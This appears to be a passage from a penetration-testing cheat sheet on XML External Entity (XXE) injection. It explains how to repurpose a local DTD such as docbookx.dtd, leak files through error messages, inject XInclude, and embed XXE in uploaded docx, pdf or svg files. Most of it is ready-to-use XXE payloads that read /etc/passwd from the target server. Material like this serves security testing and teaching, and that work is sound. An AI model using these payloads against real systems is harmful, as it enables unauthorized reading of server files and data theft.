 #### Repurposing a local DTD
Although XML specification don't allow to use xml paramete entities in definition
of other XML parameter entities but this restriction is released if we are redefining
XML parameter entities already defined inside an external DTD


This mean if we can find any local dtd with XML parameter entity we can load 
it into our payload and redefine that parameter entity.

Now this eliminates our need to host our XML dtd file. Now this is very useful
in case 
 - ##### If You Dont Want to Host Your dtd and want to leak server data out-of-bandf

 -  All external requests are blocked, in such conditions we can try to leak server data in error messages
  > **Example**
  > ```xml
  > <!DOCTYPE foo [
  > <!ENTITY % exec SYSTEM "file://<path to dtd>">
  > <!ENTITY % <some entity in given dtd> '
  > <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  > <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
  > &#x25;eval;
  > &#x25;error;
  > '>
  > %exec;
  > ]>
  > ```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; magic SYSTEM &#x27;file:///we/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;magic;
'>
%dtd;
]>
```


#### Using Xinclude where we don't control the entire document
The following injection at any point in data section of an XML document will 
result in spiting out the `/etc/passwd` file
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

#### XML file upload
XML can also be embeded inside some file types eg `docx`,`pdf`,`svg`etc 
if we inject xxe inside these it is possible that in some point of time we 
might get our xml interpreted.
